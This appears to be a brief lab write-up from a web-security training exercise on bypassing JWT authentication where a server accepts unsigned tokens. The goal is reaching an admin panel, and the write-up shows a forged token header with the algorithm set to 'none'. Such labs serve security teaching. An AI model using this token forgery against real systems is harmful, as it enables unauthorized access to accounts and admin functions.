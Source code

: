 # Lab: JWT authentication bypass via flawed signature verification

Description : The server is insecurely configured to accept unsigned JWTs

End Goal : access the admin panel

> {
>
> "typ": "JWT"
> ,
> "alg": "none"
>
> }
